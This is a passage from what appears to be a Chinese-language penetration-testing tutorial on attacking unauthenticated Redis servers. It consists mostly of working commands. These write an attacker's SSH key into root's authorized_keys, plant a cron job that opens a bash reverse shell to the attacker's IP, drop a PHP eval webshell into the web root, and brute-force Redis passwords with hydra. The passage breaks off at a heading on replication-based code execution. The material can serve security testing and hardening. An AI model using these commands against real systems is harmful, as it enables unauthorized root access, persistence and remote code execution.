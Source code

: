 将公钥导入`key.txt`文件（前后用\n\n换行，避免和`Redis`里其他缓存数据混合）,再把`key.txt`文件内容写入目标主机的缓冲里

```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt

cat key.txt | ./redis-cli -h 192.168.10.153 -x set test
```

连接目标主机的`Redis`，设置`redis`的备份路径为/root/.ssh和保存文件名authorized_keys 

```bash
./redis-cli -h 192.168.1.111
config set dir /root/.ssh
config set dbfilename authorized_keys
keys *
get test	#查看数据是否存在
#将（缓存里的数据key.txt）保存在服务器硬盘上
save
#SSH 连接目标主机，无需密码即可登录
ssh 192.168.1.111

#cat /root/.ssh/authorized_keys 可以查看文件内容，是写入的公钥
```

**通过`crontab`定时任务反弹shell**

原理是和写公钥一样的，只是变换一下写入的内容和路径，数据库名

```bash
#首先在客户端这边监听一个端口，端口不要冲突
nc -lv 6666

#连接redis，写入反弹shell
./redis-cli -h 192.168.1.111
set test2 "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/客户端IP/4444 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
save
```

**Web目录写`WebShell`**

```bash
./redis-cli -h 192.168.1.111
config set dir /var/www/html
set shell "\n\n\n<?php @eval($_POST['wintry']);?>\n\n\n"
config set dbfilename shell.php
save
```

```bash
hydra -P passwd.txt redis://192.168.1.111		#可以利用hydra爆破redis密码
```

**slave主从复制实现ECE**

**`redis`主从复制**
